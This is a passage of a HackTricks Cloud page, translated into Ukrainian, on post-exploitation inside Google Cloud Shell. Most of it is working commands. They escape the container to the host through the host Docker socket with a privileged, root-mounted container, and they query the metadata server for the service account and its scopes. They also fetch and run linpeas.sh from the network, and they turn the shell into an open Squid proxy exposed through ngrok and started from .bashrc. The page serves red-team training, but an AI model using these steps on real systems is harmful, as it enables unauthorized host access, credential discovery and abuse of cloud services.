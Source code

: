 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації про Cloud Shell перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Зверніть увагу, що Google Cloud Shell працює всередині контейнера, ви можете **легко втекти до хоста**, виконавши: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Це не вважається вразливістю з боку Google, але це дає вам ширше уявлення про те, що відбувається в цьому середовищі.

Більше того, зверніть увагу, що з хоста ви можете знайти токен сервісного облікового запису:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

З наступними обсягами:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Перелічте метадані за допомогою LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Після використання [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) з токеном облікового запису служби **не було виявлено жодних дозволів**...

### Використовуйте його як проксі

Якщо ви хочете використовувати вашу інстанцію google cloud shell як проксі, вам потрібно виконати наступні команди (або вставити їх у файл .bashrc):
```bash
sudo apt install -y squid
```
Просто щоб ви знали, Squid - це HTTP проксі-сервер. Створіть файл **squid.conf** з наступними налаштуваннями:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
скопіюйте файл **squid.conf** до **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Нарешті запустіть службу squid:
```bash
sudo service squid start
```
Використовуйте ngrok, щоб зробити проксі доступним ззовні:
```bash
./ngrok tcp 3128
```
Після виконання скопіюйте tcp:// url. Якщо ви хочете запустити проксі з браузера, рекомендується видалити частину tcp:// і порт, а порт помістити в поле порту налаштувань проксі вашого браузера (squid є http проксі-сервером).

Для кращого використання при запуску файл .bashrc повинен містити такі рядки:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Інструкції були скопійовані з [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Перевірте цю сторінку на інші божевільні ідеї для запуску будь-якого програмного забезпечення (бази даних і навіть Windows) у Cloud Shell.

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
